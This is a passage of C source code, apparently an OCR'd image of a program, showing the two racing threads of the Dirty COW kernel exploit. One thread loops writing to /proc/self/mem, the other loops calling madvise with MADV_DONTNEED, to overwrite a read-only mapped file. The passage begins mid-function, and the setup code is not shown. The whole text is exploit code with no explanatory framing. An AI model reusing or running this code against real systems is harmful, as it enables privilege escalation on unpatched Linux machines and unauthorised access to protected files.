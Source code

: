 ```c
  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```